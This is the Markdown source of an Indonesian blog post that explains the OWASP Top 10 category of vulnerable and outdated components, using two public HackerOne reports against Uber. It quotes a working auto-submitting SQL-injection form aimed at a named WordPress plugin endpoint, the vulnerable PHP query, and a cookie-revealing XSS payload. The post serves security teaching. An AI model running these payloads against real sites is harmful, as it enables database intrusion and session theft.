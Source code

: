 ```yaml
---
title: "Owasp Top 10 Series — A6 (Vulnerable and Outdated Components)"
date: 2022-05-07T18:45:34+07:00
tags: ["security"]
categories: ["Owasp Top Ten"]
thumbnail: "/icon/owasp.svg"
---
```


## Pengantar

Artikel kali ini kita akan membahas owasp top 10 yang ada di urutan ke enam untuk tahun 2021 (owasp tiap 4 tahun sekali), ialah **Vulnerable and Outdated Components**.

OWASP merupakan singkatan dari _Open Web Application Security Project_, yang merupakan sebuah project _Security Web Application_ open source yang diperkasai oleh para penggiat teknologi atau pengembang aplikasi, OWASP sering mengadakan seminar, forum diskusi serta pendidikan untuk para Developer.

jadi yang dimaksud **OWASP TOP 10**? owasp top 10 merupakan sebuah cara untuk mengkategorikan resiko kerentanan yang sering terjadi pada sebuah aplikasi berbasis website, dari yang paling atas (resiko tertinggi) hingga yang paling bawah (tingkat resiko rendah), Tujuannya apa ?, tentu saja ini sangat berguna bagi para developer aplikasi supaya mereka jadi lebih aware terhadap kerentanan di aplikasi mereka.

## Vulnerable and Outdated Components

### apa itu Vulnerable and Outdated Components ?

**Vulnerable and Outdated Components** Merupakan sebuah kesalahan dari developer aplikasi yang memakai **Framework / Library** pihak ketiga tetapi masih versi lawas (Outdated), karena biasanya versi Outdate itu sangat rentan terhadadp serangan.

Ironisnya **Vulnerable and Outdated Components** ini sering terjadi di Indonesia :'(, apalagi situs situs yang tidak di maintenance dengan baik dan terbengkalai sehingga attacker dapat menggunakan kerentanan aplikasi itu.

## Praktikal

### #135288 Multiple vulnerabilities in a WordPress plugin at drive.uber.com

sumber : https://hackerone.com/reports/135288

attacker melakukan scanning di website **drive.uber.com** dan menemukan bahwa aplikasi tersebut masih menggunakan _WordPress 4.4.2_ (versi lawas).

dari \*WordPress 4.4.2\*\* ditemukan beberapa kerentanan seperti :

1. SQL INJECTION

attacker membuat sebuah halaman seperti berikut

```
<form action="https://drive.uber.com/ukmarketplace/wp-admin/edit.php?post_type=qa_faqs&page=faqpageorder" target="_blank"  method="post" style="display: none;">
            <input type="text" name="btnOrderPages" value="Click to Reorder FAQs" />
            <input type="text" name="hdnfaqpageorder" value="id_8,id_7" />
            <input type="text" name="hdnParentID" value="IF(MID(VERSION(),1,1) = 5, SLEEP(5), 0)" />
            <input type="text" name="btnReturnParent" value="1" />
            <input type="submit" name="send" value="Save" />
</form>
<script type="text/javascript">
document.forms[0].submit();
</script>
```

POST di _plugins/q-and-a/inc/reorder.php_

```
45. if (isset($_POST['btnReturnParent'])) {
46. 	$parentsParent = $wpdb->get_row("SELECT post_parent FROM $wpdb->posts WHERE ID = " . $_POST['hdnParentID'], ARRAY_N);
47. 	$parentID = $parentsParent[0];
48. }
```

2. Cross-Site Scripting (XSS)

Attacker Login ke _admin panel_ -> _Settings_ -> _Q & A_

ganti FAQ Homepage :

```
'"/autofocus/onfocus=alert(document.domain%2bdocument.cookie);//
```

### #168485 Exposed, outdated nginx server (v1.4.6) potentially vulnerable to heap-based buffer overflow & RCE

sumber : https://hackerone.com/reports/168485

attacker melakukan **recon** do ip address _54.153.101.52_ dan mendapati bahwa masih menggunakan **nginx version 1.4.6**

[CVE-2014-0133](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-0133)

CVE diatas terdapat kerentanan **RCE**

![Hackerone CVE 2014 0133](https://drive.google.com/uc?id=1LTMAZjEVU2YZZ01u-CIsWqeZWQvhXcCH)

## Mitigasi

Segera lakukan pengecekan berkala di aplikasi yang anda gunakan, jika memang memakai pihak ketiga (Framework) dari developer lain. usahakan selalu memakai versi yang paling update untuk meredam resiku peretasan.

## References

OWASP Application Security Verification Standard: V1 Architecture, design and threat modelling

OWASP Dependency Check (for Java and .NET libraries)

OWASP Testing Guide - Map Application Architecture (OTG-INFO-010)

OWASP Virtual Patching Best Practices

The Unfortunate Reality of Insecure Libraries

MITRE Common Vulnerabilities and Exposures (CVE) search

National Vulnerability Database (NVD)

Retire.js for detecting known vulnerable JavaScript libraries

Node Libraries Security Advisories

Ruby Libraries Security Advisory Database and Tools

```
https://safecode.org/publication/SAFECode_Software_Integrity_Controls0610.pdf
```

# Beberapa kerentanan lain di list CWE

CWE-937 OWASP Top 10 2013: Using Components with Known Vulnerabilities

CWE-1035 2017 Top 10 A9: Using Components with Known Vulnerabilities

CWE-1104 Use of Unmaintained Third Party Components
